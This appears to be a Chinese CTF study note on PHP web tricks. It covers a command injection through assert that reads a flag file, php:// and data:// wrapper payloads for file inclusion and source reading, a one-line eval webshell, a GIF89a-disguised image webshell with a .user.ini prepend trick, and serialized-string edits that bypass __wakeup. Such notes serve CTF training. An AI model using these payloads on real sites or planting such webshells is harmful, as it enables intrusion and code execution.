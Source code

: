 ```yaml
---
title: CTF中比赛中PHP相关的知识点
date: 2022-12-29 21:46:39
keywords: ctf php, ctf php知识点
description: 总结 CTF 比赛中可能遇到的 PHP 相关的知识点，本文只做关键信息的总结，具体内容可以依据关键信息在互联网搜索操作步骤。 
---
```


## 一些函数的绕开

`str_replace / strstr` 函数在匹配 `php://` 字符串时，可以考虑使用大小写或大小写混合的方式绕过检查。

`assert` 绕过可以使用 `*1') or system("cat templates/flag.php");//*`  的方式。

`strpos`  

`preg_replace` 存在 /e 执行漏洞。


## 文件读取

```php
<?php  
// $filename 可以用 GET / POST 方式传入
if( isset($text) && (file_get_contents($filename,'r')==="hello ctf")){

}
```

当遇到 file_get_contents($file_name) 代码做条件判断时，尝试通过 data 伪协议传入希望读取的内容。data 伪协议也可以被 `include` 函数调用，从PHP5.2.0起，数据封装流就开始有效，用于数据流的读取。如果传入的都是PHP代码，就会执行任意代码。

### data 伪协议

```php
data://text/plain,hello ctf
data://text/plain;base64,aGVsbG8gY3Rm

/ 可以使用 &#47;
data:&#47;&#47;text&#47;plain,4
```

### php 伪协议

当遇到 `include` 函数时，可以用 `php://` 伪协议将文件内容打印出来


```sh
# 用于执行代码
?file=php://input
# 用户获取源码
?file=php://filter/read=convert.base64-encode/resource=flag.php
?file=php://filter/convert.iconv.UTF-8.UTF-7/resource=index.php

?file=php://filter/convert.iconv.UCS-4*.UCS-4BE/resource=check.php
?file=php://filter/convert.iconv.EUC-JP%2a.UCS-4*/resource=flag.php
```

### 使用网络路径

```sh
?file=http://localhost:8081/phpinfo.php?.txt
```



## 文件上传绕过

文件上传功能风险在于被人上传木马，经常用到的一句话木马为 `<?php eval($_GET['a']); ?>`，而绕过的方法有很多种。

* 前端校验
* MIME绕过
* 文件头校验
* 截断绕过
* 图片木马

在文本文件中添加 `GIF89a` 并保存为 jpg 文件，可以伪装成图片文件。利用 `<?` 短符号，可以绕过 php 文件的探测。

```sh
GIF89a                                                                                                                                                                                
<?=eval($_REQUEST['cmd']);?>
```

`.user.ini` 配置，可以将某个文件默认追加到所有执行 php 的文件的头部

```sh
GIF89a                  
auto_prepend_file=b.jpg
```

## 反序列化绕过

序列化就是将运行中的数据或者对象保存为持久化的数据，并且支持将持久化的数据反序列化转换为数据或者对象。序列化的目的是方便数据的传输和存储。

php 的序列化和反序列化会用到 `serialize` 和 `unserialize` 函数。

```php
// 使用这两个替换，可以绕过 wakeup 函数
$a = str_replace(':4:', ':+4:', $a);
$a = str_replace(':1:', ':2:', $a);
```



## 弱类型比较的漏洞

在一些代码审计的题目中，可能存在弱类型漏洞，需要敏锐的发现这些问题。



## 参考资料

1. [CTF include](https://blog.csdn.net/qq_61774705/article/details/126323696)
1. [攻防世界CTF —— PHP本地文件包含漏洞解题思路](https://blog.csdn.net/weixin_47610939/article/details/126019042)
1. [2021-02-23-ctf-Web_php_unserialize反序列化漏洞](https://blog.csdn.net/weixin_43639682/article/details/123686797)
1. [[CTF]PHP反序列化总结](https://blog.csdn.net/solitudi/article/details/113588692)
1. [XCTF-攻防世界CTF平台-Web类——19、mfw（.Git源代码泄露、php的assert断言）](https://blog.csdn.net/Onlyone_1314/article/details/121876664)
1. [路径穿越（Path Traversal）详解](https://blog.csdn.net/qingzhantianxia/article/details/128204437)
